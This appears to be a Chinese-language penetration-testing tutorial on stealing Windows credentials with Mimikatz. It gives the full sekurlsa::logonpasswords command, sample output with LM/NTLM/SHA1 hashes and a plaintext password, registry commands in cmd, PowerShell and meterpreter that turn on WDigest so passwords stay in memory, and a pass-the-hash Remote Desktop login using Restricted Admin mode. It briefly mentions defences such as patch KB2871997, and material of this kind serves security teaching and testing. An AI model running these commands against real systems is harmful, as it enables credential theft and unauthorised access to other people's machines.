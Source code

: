 ### Mimikatz 抓取 Windows 管理员密码

[下载工具](https://github.com/ParrotSec/mimikatz)

```cmd
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpassWords" "exit"
```

`"privilege::debug"`
 尝试提升当前进程的权限以便访问受保护的系统资源

`"log"`
 启用或开始记录 Mimikatz 的运行输出到本地日志文件

`"sekurlsa::logonpassWords"`
 向 Mimikatz 的 sekurlsa 模块发出“列出登录会话和相关凭据”的请求。该模块会尝试从 LSASS/内存中读取登录会话信息（可能包含用户名、域、NTLM 哈希、明文密码等内容，具体取决于系统配置和保护程度）

`"exit"`
 退出 Mimikatz 程序

![](https://pic1.imgdb.cn/item/68cbfd9fc5157e1a88179b9e.png)

```cmd
Authentication Id : 0 ; 126277 (00000000:0001ed45)
Session           : Interactive from 1
User Name         : rkvir
Domain            : WIN-DK3UCO8BEOB
Logon Server      : WIN-DK3UCO8BEOB
Logon Time        : 2025/9/18 16:39:53
SID               : S-1-5-21-4044031831-2824117312-571717897-1000
	msv :	
	 [00000003] Primary
	 * Username : rkvir
	 * Domain   : WIN-DK3UCO8BEOB
	 * LM       : 44efce164ab921caaad3b435b51404ee
	 * NTLM     : 32ed87bdb5fdc5e9cba88547376818d4
	 * SHA1     : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
	tspkg :	
	 * Username : rkvir
	 * Domain   : WIN-DK3UCO8BEOB
	 * Password : 123456
	wdigest :	
	 * Username : rkvir
	 * Domain   : WIN-DK3UCO8BEOB
	 * Password : 123456
	kerberos :	
	 * Username : rkvir
	 * Domain   : WIN-DK3UCO8BEOB
	 * Password : 123456
	ssp :	
	credman :	
```

`Authentication Id : 0 ; 126277 (00000000:0001ed45)`
 内部会话认证 ID，用于区分 logon session。通常用于关联凭据与某个会话

`Session : Interactive from 1`
 表示这是一个交互式登录（例如本地控制台或 RDP），Session Id=1

`User Name : rkvir` / `Domain : WIN-DK3UCO8BEOB` / `Logon Server : WIN-DK3UCO8BEOB` / `Logon Time : 2025/9/18 16:39:53`
 表示用户、域/主机与登录时间 — 有助于事件时间线重建

`SID : S-1-5-21-...-1000`
 Windows 安全标识，唯一标识此用户账户

`msv : [00000003] Primary` 下的项

- `Username` / `Domain`：重复用户名/域信息
- `LM` / `NTLM` / `SHA1`：该账户的 LM、NTLM、SHA1 散列值（来自内存/LSASS）。这些哈希可用于“传递哈希 (Pass-the-Hash)”类攻击或作为离线破解目标。LM 已为过时但仍可能存在；NTLM 是常见的网络认证散列。

`tspkg : * Password : 123456`
 tspkg 插件能获得的凭据；这里直接明文显示了密码 `123456`

`wdigest : * Password : 123456`
 WDigest 明文凭据被泄露 —— 说明系统上可能启用了或曾启用将凭据明文保存在内存的机制（历史上 WDigest 会将明文凭据保存在内存，现代系统可通过设置禁用）

`kerberos : * Password : 123456`
 Kerberos 相关也泄露了明文密码（说明凭证在内存中可被读取，或 LSASS 中保存了明文/可逆信息）

`ssp :` / `credman :`
 这些模块在此 dump 中为空或未获取到可用凭据

**在日常网络维护中，通过查看注册表项 Wdigest 可以判断其功能状态**

**如果该项值为 0，用户明文密码就不会出现在内存中，如果该项值为 1 用户下次登录时，攻击者就能使用工具获取明文密码**

微软为了防止用户的明文密码在内存中泄露，发布了 KB2871997 补丁，关闭了 Wdigest 功能

Windows Server2012 及以上版本默认关闭 Wdigest，使攻击者无法从内存中获取明文密码

Windows Server2012 以下版本，如果安装了 KB2871997 补丁，攻击者同样无法获取明文密码

在命令行环境开启或关闭 Wdigest Auth，有如下两种方法：

cmd 中开启 Wdigest

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

PowerShell 中开启 Wdigest

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

meterpreter 中开启 Wdigest

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
```

对应的关闭如下

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
```

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
```

在开启 `Wdigest Auth` 后，需要管理员重新登录才能逮到明文密码

**经测试 Win10企业版仅锁屏读明文失败，需要注销才行，其它版本未知**

另一种就是碰撞 md5、hash

通过 hash 登录远程桌面，Windows server 是支持

**目标主机要开启 RDP, 以及关闭防火墙**

```cmd
# 开启
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t
REG_DWORD /d 00000000 /f

# 查询结果, 0x0 是开启
REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"

# rdp pth, 只需要在攻击者机器上运行
mimikatz.exe
privilege::debug
sekurlsa::pth /user:Administrator /domain:192.168.118.133
/ntlm:d557003628dffa85976ae9ae4568eff9 "/run:mstsc.exe /restrictedadmin"
```